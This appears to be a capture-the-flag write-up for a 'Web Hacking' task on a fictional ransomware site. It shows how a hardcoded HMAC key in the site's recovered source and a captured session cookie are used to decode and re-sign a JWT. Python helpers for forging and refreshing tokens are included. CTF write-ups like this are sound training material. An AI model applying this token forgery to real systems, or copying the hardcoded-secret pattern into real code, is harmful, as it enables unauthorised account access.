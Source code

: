 # Task 6
## Category: Web Hacking/Redacted
### Prompt:
We've found the login page on the ransomware site, but we don't know anyone's username or password. Luckily, the file you recovered from the attacker's computer looks like it could be helpful.

Generate a new token value which will allow you to access the ransomware site.
### Provided Materials:
- None
### Task Goal:
- User level authentication token
### Steps:
To start, we have to figure out how new users are created. Looking at the source code acquired in task b2, we can see the function for generating a token in util.py:

```python
def generate_token(userName):
	""" Generate a new login token for the given user, good for 30 days"""
	with userdb() as con:
		row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
		now = datetime.now()
		exp = now + timedelta(days=30)
		claims = {'iat': now,
		          'exp': exp,
				  'uid': row[0],
				  'sec': row[1]}
		return jwt.encode(claims, hmac_key(), algorithm='HS256')
```
The site uses JSON Web Tokens (JWTs) to authenticate it's users. From this function it's clear that there are four required claims:
1. iat (Issued At)
2. exp (Expiration)
3. uid (User ID)
4. sec (Secret)

as well as the HMAC key used in the HS256 encryption:
```python
def hmac_key():
	return "v3e1sgmbRnCfBdSuUBEuXFQgPZgnlwum"
```
The iat and exp claims are generated on token creation, so we only need to find a user's sec value and their UID.

In the previous task we got a netscape cookie that includes a JWT value:
```
# Netscape HTTP Cookie File
wiybrlehcuuflsbz.ransommethis.net    FALSE    /    TRUE    2145916800    tok    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTI5MzkxMTIsImV4cCI6MTY1NTUzMTExMiwic2VjIjoiS3dvYmV3Y1daSEhocWVCVm9VTGVsMFVHeUh6VGF6YzgiLCJ1aWQiOjMyMzQyfQ.bpKQ81q5f035Huol1WSUAwwXXx_uVEoRGSi0Y-c2l_U
```

I wrote some python functions to help interact with the site:

```python
def get_hmac():
    return "v3e1sgmbRnCfBdSuUBEuXFQgPZgnlwum"
def create_token(iat, exp, uid, secret):
    return jwt.encode({'iat': iat, 'exp': exp, 'sec':secret, 'uid':uid,}, get_hmac(), algorithm='HS256')
def refresh_token(token):
    claims = decode_token(token)
    claims['exp'] = datetime.now()+timedelta(days=30)
    return create_token(claims['iat'], claims['exp'], claims['uid'], claims['sec'])
def decode_token(token):
    return jwt.decode(token, get_hmac(), algorithms=['HS256'], options={'verify_exp': False})
```

Using decode_token() on the token in the netscape cookie gives us the two claims for our compromised user:

![Alt text](../images/task_6_decoded.png "Screenshot of a python terminal showing the decode_token function in use")
Then we can either use the create_token function with the discovered claims, or simply use the refresh_token function to fix the exp and iat claims.

![Alt text](../images/task_6_refresh.png "Screenshot of a python terminal with code for refreshing a JWT token.")

![Alt text](../images/badge6.png "Badge for task 6")
